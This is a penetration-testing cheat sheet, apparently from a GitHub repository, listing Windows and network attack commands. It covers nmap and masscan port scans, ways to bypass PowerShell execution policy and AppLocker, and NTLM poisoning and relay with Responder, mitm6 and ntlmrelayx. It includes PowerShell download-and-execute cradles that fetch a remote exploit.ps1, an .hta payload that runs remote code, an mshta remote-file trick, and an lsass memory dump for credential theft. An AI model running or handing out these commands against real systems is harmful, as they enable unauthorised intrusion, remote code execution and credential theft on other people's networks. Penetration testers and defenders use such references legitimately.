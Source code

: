 ## Portscan
#### Nmap Few
```
nmap -sS -Pn -p 22,25,80,443,139,445,3306,1433,5432,1521,27001,8080,8000,8088,8443,5900,1099 --open -vvvv -iL <file> -oA nmap_few
```
#### Nmap 1k
```
nmap -sS -Pn --open -vvvv -iL <file> -oA nmap_1k
```
#### Masscan + nmap version Full
```
masscan -p 1-65535 --rate 10000 --wait 0 --open -iL ip.txt -oX masscan.xml
```
```
open_ports=$(cat masscan.xml | grep portid | cut -d "\"" -f 10 | sort -n | uniq | paste -sd,)
```
```
nmap -sS -Pn -A -sV -p $open_ports --open -vvvv -n -iL ip.txt -oA nmapfull
```
#### Naabu
```
naabu -list <ip.txt> -rate 5000 -nmap-cli 'nmap -sV -oA naabu_nmap'
```

## PowerShell Execution Bypass Techniques

#### Netspi blog - https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/
```
powershell.exe -ExecutionPolicy Bypass
PowerShell.exe -ExecutionPolicy Bypass -File .runme.ps1
PowerShell.exe -ExecutionPolicy UnRestricted -File .runme.ps1
PowerShell.exe -ExecutionPolicy Remote-signed -File .runme.ps1
Echo Write-Host "My voice is my passport, verify me." | PowerShell.exe -noprofile -
powershell.exe -Enc VwByAGkAdABlAC0ASABvAHMAdAAgACcATQB5ACAAdgBvAGkAYwBlACAAaQBzACAAbQB5ACAAcABhAHMAcwBwAG8AcgB0ACwAIAB2AGUAcgBpAGYAeQAgAG0AZQAuACcA

Set-ExecutionPolicy Bypass -Scope Process
Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
Get-Content .runme.ps1 | PowerShell.exe -noprofile -
Get-Content .runme.ps1 | Invoke-Expression
GC .runme.ps1 | iex
TYPE .runme.ps1 | PowerShell.exe -noprofile -
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://192.168.0.1/exploit.ps1')"
Powershell -command "Write-Host 'My voice is my passport, verify me.'"
Powershell -c "Write-Host 'My voice is my passport, verify me.'"
$command = "Write-Host 'My voice is my passport, verify me.'" $bytes = [System.Text.Encoding]::Unicode.GetBytes($command) $encodedCommand = [Convert]::ToBase64String($bytes) powershell.exe -EncodedCommand $encodedCommand
invoke-command -scriptblock {Write-Host "My voice is my passport, verify me."}
invoke-command -computername Server01 -scriptblock {get-executionpolicy} | set-executionpolicy -force
function Disable-ExecutionPolicy {($ctx = $executioncontext.gettype().getfield("_context","nonpublic,instance").getvalue( $executioncontext)).gettype().getfield("_authorizationManager","nonpublic,instance").setvalue($ctx, (new-object System.Management.Automation.AuthorizationManager "Microsoft.PowerShell"))}  Disable-ExecutionPolicy  .runme.ps1

```

## Bypass GPO and Applocker to execute Powershell

#### Powershx
```
https://github.com/iomoath/PowerShx
```

#### MSBuildshell
Download
```
https://github.com/Cn33liz/MSBuildShell/blob/master/MSBuildShell.csproj
```
```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe MSBuildShell.csproj
```
Or
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe MSBuildShell.csproj
```
#### CScriptShell
```
https://github.com/Cn33liz/CScriptShell
```
#### Powershdll
```
https://github.com/p3nt4/PowerShdll
```
#### SyncAppvPublishingServer
```
SyncAppvPublishingServer.vbs "Break; mshta <remote file>"
```
#### Powerline
```
https://github.com/fullmetalcache/PowerLine
```
```
PowerLine.exe Out-Minidump "Get-Process lsass | Out-Minidump"
```
```
PowerLine.exe PowerUp "Invoke-AllChecks"
```
#### List AppLocker Rules - https://blog.pwn.al/security/applocker/bypass/custom/rules/windows/2018/09/13/applocker-custom-rules-bypass.html
```
Import-Module AppLocker
[xml]$data = Get-AppLockerPolicy -effective -xml

# Extracts All Rules and print them.
Write-Output "[+] Printing Applocker Rules [+]`n"
($data.AppLockerPolicy.RuleCollection | ? { $_.EnforcementMode -match "Enabled" }) | ForEach-Object -Process {
    Write-Output ($_.FilePathRule | Where-Object {$_.Name -NotLike "(Default Rule)*"}) | ForEach-Object -Process {Write-Output "=== File Path Rule ===`n`n Rule Name : $($_.Name) `n Condition : $($_.Conditions.FilePathCondition.Path)`n Description: $($_.Description) `n Group/SID : $($_.UserOrGroupSid)`n`n"}
    Write-Output ($_.FileHashRule) | ForEach-Object -Process { Write-Output "=== File Hash Rule ===`n`n Rule Name : $($_.Name) `n File Name :  $($_.Conditions.FileHashCondition.FileHash.SourceFileName) `n Hash type : $($_.Conditions.FileHashCondition.FileHash.Type) `n Hash :  $($_.Conditions.FileHashCondition.FileHash.Data) `n Description: $($_.Description) `n Group/SID : $($_.UserOrGroupSid)`n`n"}
    Write-Output ($_.FilePublisherRule | Where-Object {$_.Name -NotLike "(Default Rule)*"}) | ForEach-Object -Process {Write-Output "=== File Publisher Rule ===`n`n Rule Name : $($_.Name) `n PublisherName : $($_.Conditions.FilePublisherCondition.PublisherName) `n ProductName : $($_.Conditions.FilePublisherCondition.ProductName) `n BinaryName : $($_.Conditions.FilePublisherCondition.BinaryName) `n BinaryVersion Min. : $($_.Conditions.FilePublisherCondition.BinaryVersionRange.LowSection) `n BinaryVersion Max. : $($_.Conditions.FilePublisherCondition.BinaryVersionRange.HighSection) `n Description: $($_.Description) `n Group/SID : $($_.UserOrGroupSid)`n`n"}
}
```
#### .hta payload
```
<HTML> 
<HEAD> 
<script language="VBScript">
    Set objShell = CreateObject("Wscript.Shell")
    objShell.Run "powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://ip:port/')"
</script>
</HEAD> 
<BODY> 
</BODY> 
</HTML>
```
#### Whitelist Invasion - Installutil.py
```
https://github.com/khr0x40sh/WhiteListEvasion
```

## Poisoning Attack

#### Responder
```
responder -I eth0
```
#### IPv6 DHCP Rogue Server 
Install Mitm6
```
pip install mitm6
```

```
mitm6 -i eth0
```

#### Generate SMB Signing Disabled Hosts
```
crackmapexec smb --gen-relay-list smb_sigb_disabled.txt ranges.txt
```
#### Relay Attacks 
ntlmrelayx
```
python3 ntlmrelayx.py -smb2support -tf filename
```
ntlmrelayx Comamnd execution
```
python3 ntlmrelayx.py -smb2support -tf filename -c <msf or koadic listener here>
```
Multirelay
```
python3 MultiRelay.py -t IP -u ALL
```
SMBrelay
```
python3 smbrelayx.py -h IP -c <command>
```
```
python3 smbrelayx.py -h IP -e <executable>
```
